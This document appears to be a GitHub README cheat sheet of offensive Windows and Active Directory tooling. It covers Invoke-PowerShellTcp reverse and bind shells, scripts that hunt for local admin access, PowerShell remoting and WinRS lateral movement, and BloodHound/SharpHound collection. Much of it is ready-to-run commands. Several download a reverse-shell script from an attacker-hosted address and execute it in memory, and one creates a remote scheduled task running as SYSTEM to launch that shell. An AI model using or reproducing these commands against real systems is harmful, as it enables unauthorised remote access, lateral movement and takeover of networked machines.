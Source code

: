 - [`Invoke-PowerShellTcp.ps1`](#-invoke-powershelltcpps1-)
- [`Find-PSRemotingLocalAdminAccess.ps1`](#-find-psremotinglocaladminaccessps1-)
- [`Find-WMILocalAdminAccess.ps1`](#-find-wmilocaladminaccessps1-)
- [Enter-PSSession (cmdlet)](#enter-pssession--cmdlet-)
- [Invoke-Command (cmdlet)](#invoke-command--cmdlet-)
- [WinRS.exe](#winrsexe)
- [Loader.exe](#loaderexe)
- [Task Scheduling](#task-scheduling)
- [BloodHound](#bloodhound)


### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```
To download and run from memory, both options:
```powershell
C:> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress <IP> -Port 443
C:> powershell.exe iex (iwr http://<IP>/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress <IP> -Port 443
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
### Enter-PSSession (cmdlet)
---
Starts an interactive session with a single remote computer. During the session, the commands that you type run on the remote computer, just as though you were typing directly on the remote computer. You can have only one interactive session at a time.
```powershell
C:> Enter-PSSession <host>
C:> Enter-PSSession -ComputerName <host>
```
### Invoke-Command (cmdlet)
---
Runs commands on a local or remote computer and returns all output from the commands, including errors.
```powershell
C:> invoke-command -ComputerName WCOMPUTER -ScriptBlock {whoami}

# Created Session
C:> $sess = New-PSSession <host>
C:> Invoke-Command -ScriptBlock {whoami}.ps1 -Session $sess
```
### WinRS.exe
---
```powershell
C:> winrs.exe -r:COMPUTER cmd
```
### Loader.exe
---
```powershell
C:> Loader.exe -path http://<ip>/<file>.ps1
```
### Task Scheduling
---
```powershell
# Create task to run a reverse shell
C:> schtasks /create /S <host> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<task_name>" /TR "powershell.exe -c 'iex (New-ObjectNet.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcpEx.ps1''')'"

# Force task to run
C:> schtasks /Run /S <host_fqdn> /TN "<task_name>"
```
### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:
- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
To avoid asking DC, use:
```powershell
C:> Invoke-BloodHound -CollectionMethod All -ExcludeDC
```

